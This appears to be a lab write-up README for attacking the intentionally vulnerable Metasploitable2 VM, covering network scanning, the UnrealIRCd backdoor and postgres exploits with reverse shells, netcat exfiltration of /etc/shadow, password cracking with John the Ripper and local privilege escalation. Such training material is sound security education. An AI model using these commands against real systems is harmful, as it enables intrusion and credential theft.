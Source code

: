 # SoftwareSec-Metasploitable2

## Overview

Attempt to get a shell onto a remote system (Metasploitable2) and extract its password and shadow files for password cracking. Using SSH to verify results.

## Set Ups

#### Virtual Box

Set up a local nat network

File > Preferences > Network > add Nat Network

#### Kali

Settings > Network > Attach to > Nat Network

update: ```$apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y```

#### Metasploitable

Settings > Network > Attach to > Nat Network

username: msfadmin

password: msfadmin

## Procedure

### Network discovery

Finding your own IP

```$ifconfig```

Discovering other IPs on your network

```$nmap -sP 10.0.2.0/24```

After finding target on network, run ```nmap``` for ports and services discover

```$nmap <Target IP>```

Notice that there is an HTTP server running, use ```nikto``` to find vulnerabilities. Default port is 80

```nikto -h <Target IP>```

```nikto``` returns a list of vulnerabilities for the server. Google these vulnerabilities and their potention exploits

Running Metasploit frameworks. Either use the fast access side bar in Kali or Applications > 08 - Exploitation > Metasploit Frameworks.

The first time starting metasploit will take a little bit as it needs to initialize a database.  

### Finding Exploits 

Notice that there is an IRC service running on port 6667 during our nmap port scan. There is a backdoor exploit we can use. To search for a unix irc exploit 

```search type:exploit platform:unix irc```

returns ```exploit/unix/irc/unreal_ircd_3281_backdoor```

To use the exploit:

```use exploit/unix/irc/unreal_ircd_3281_backdoor```

Set the target host:

```set RHOST <Target IP>```

Show available payloads

```show payloads```

There is a reverse tcp payload. We can learn more about it with 

```info cmd/unix/reverse```

To use the payload

```set payload cmd/unix/reverse```

We need to set some options such as LHOST

```show options```

```set LHOST <Local IP>```

Run the exploit

```exploit```

We now have a shell on the remote system. We can check that we're root with ```whoami```. We can also check our IP with ```ifconfig```. What we really want are the password hashes in the shadow file located in /etc/shadow.

```cd /etc/```

We will just ```netcat``` to transfer the file to our local machine from the stolen shell.

On local machine

```nc -lp 1234 > shadow```

On shell

```cat shadow | nc <Local IP> 1234```

We can now crack those passwords with john the ripper. Simply copy the shadow file into a hash.txt

```cp shadow hash.txt```

Run john

```john hash.txt```

We can also run john with its many built in wordlists.

```john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

Once the process is done, we can check our cracked passwords

```john -show hast.txt```

We should now have credentials for users on the remote machine. We can verify our passwords are correct using SSH

```ssh username@<TargetIP>```

Extra: Meterpreter

Postgress exploit

```use exploit/linux/postgres/postgres_payload```

```show options```

```set payload linux/x86/meterpreter/reverse_tcp```

```set LHOST <Local IP>```

```set PASSWORD postgres```

```exploit```

We have a meterpreter as the postgres user. But we can elevate our priviledge to root

```meterpreter> background``` Note the session ID

```use exploit/linux/local/udev_netlink```

```show options```

```set SESSION <ID of meterpreter>```

```exploit```

We now have root privildege with Meterpreter.

### Sources

#### Downloads

https://www.virtualbox.org/

https://www.kali.org/

https://metasploit.help.rapid7.com/docs/metasploitable-2

#### References

https://metasploit.help.rapid7.com/v1/docs/exploitation

https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide

https://docs.kali.org/general-use/starting-metasploit-framework-in-kali

https://tools.kali.org/information-gathering/nmap

https://tools.kali.org/information-gathering/nikto

https://tools.kali.org/password-attacks/john

